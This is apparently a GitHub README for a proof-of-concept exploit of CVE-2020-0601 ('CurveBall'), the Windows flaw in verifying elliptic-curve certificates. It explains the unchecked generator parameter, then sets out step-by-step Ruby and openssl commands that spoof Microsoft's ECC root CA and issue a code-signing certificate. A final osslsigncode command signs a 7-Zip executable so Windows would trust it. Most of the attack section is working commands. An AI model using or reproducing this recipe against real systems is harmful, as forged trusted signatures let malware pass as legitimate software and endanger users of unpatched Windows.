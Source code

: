 # CurveBall (CVE-2020-0601) - PoC
CVE-2020-0601, or commonly referred to as CurveBall, is a vulnerability in which the signature of certificates using elliptic curve cryptography (ECC) is not correctly verified. 

ECC relies on different parameters. These parameters are standardized for many curves. However, Microsoft didn't check all these parameters. The parameter `G` (the generator) was not checked, and the attacker can therefore supply his own generator, such that when Microsoft tries to validate the certificate against a trusted CA, it'll only look for matching public keys, and then use then use the generator of the certificate. NSA explains the impact of this vulnerability and more [here](https://media.defense.gov/2020/Jan/14/2002234275/-1/-1/0/CSA-WINDOWS-10-CRYPT-LIB-20190114.PDF).

`MicrosoftECCProductRootCertificateAuthority.cer` is by default a trusted root certificate authority (CA) using ECC on Windows 10. Anything signed with this certificate will therefore automatically be trusted.  
## Mathematical details
If you're interested in the mathematical details of the vulnerability, please read more [here](https://news.ycombinator.com/item?id=22048619).

In order to spoof the certificate, we set the following parameters:

    d' = 1
    G' = Q
Such that `Q = Q' = d'G'`.

## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
Coming soon. Same technique, different openssl parameters.
